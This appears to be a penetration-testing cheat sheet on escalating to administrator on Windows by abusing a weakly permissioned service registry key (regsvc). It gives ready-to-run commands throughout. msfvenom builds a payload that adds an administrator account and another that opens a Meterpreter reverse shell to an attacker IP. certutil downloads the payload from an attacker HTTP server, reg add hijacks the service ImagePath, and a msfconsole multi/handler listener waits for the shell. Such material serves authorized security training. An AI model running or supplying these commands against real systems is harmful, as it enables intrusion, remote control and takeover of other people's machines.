 ### **EXPLOITING INSECURE SERVICE WITH METASPLOIT**

1.  let’s create a binary to Add a User to the Administrators with msfvenom.  
    `msfvenom -p windows/x64/exec CMD='net localgroup Administrators [USERNAME] /add' -f exe > hackfast.exe`  
    
    ![](../../../../img/Windows-Environment/118.png)
    
2.  Host the binary using Pythong HTTP server and transfer it to the target Machine with certutil.  
    `certutil -urlcache -f http://[IP-ADRESS]:8001/hackfast.exe hackfast.exe`  
    
    ![](../../../../img/Windows-Environment/119.png)
    
3.  change the ImagePath on the regsvc service registry key to point to our malicious executable. We can do this using the following command:  
    `reg add "HKLM\SYSTEM\CurrentControlSet\services\regsvc" /v ImagePath /t REG_EXPAND_SZ /d c:\temp\hackfast.exe /f`  
    
    ![](../../../../img/Windows-Environment/120.png)

    **NOTE:** we can check if ImagePath set properly with following commands:  
    `reg query "HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\regsvc"`
    
4.  Now run `net start regsvc` on the target to execute the exploit.  

    ![](../../../../img/Windows-Environment/121.png)

    **NOTE:** If SeShutdownPrivilege is enabled you can reboot to have the service to restart automatically.  
    `shutdown /r /t 0`
    

### **GENERATING REVERSE SHELL WITH MSFVENOM**

1.  let’s create a reverse shell binary with msfvenom.  
    `msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe LHOST=[ATTACKER-IP] LPORT=[PORT] -o hackfast.exe`  
    
    ![](../../../../img/Windows-Environment/122.png)
    
2.  Host the binary using Python HTTP server and transfer it to the target Machine with certutil.  
    `certutil -urlcache -f http://[IP-ADRESS]:8001/hackfast.exe hackfast.exe`  
    
    ![](../../../../img/Windows-Environment/123.png)
    
3.  change the ImagePath on the regsvc service registry key to point to our malicious executable. We can do this using the following command:  
    `reg add "HKLM\SYSTEM\CurrentControlSet\services\regsvc" /v ImagePath /t REG_EXPAND_SZ /d c:\temp\hackfast.exe /f`  
    
    ![](../../../../img/Windows-Environment/124.png)

    **NOTE:** we can check if ImagePath set properly with following commands:  
    `reg query "HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\regsvc"`
    
4.  Start your listener on the attacking machine  
    `msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT [PORT]; run"`  
    
    ![](../../../../img/Windows-Environment/125.png)
    
5.  Now run `net start regsvc` on the target Machine to execute the exploit.  
    
    ![](../../../../img/Windows-Environment/126.png)

    **NOTE:** If SeShutdownPrivilege is enabled you can reboot to have the service to restart automatically.  
    `shutdown /r /t 0`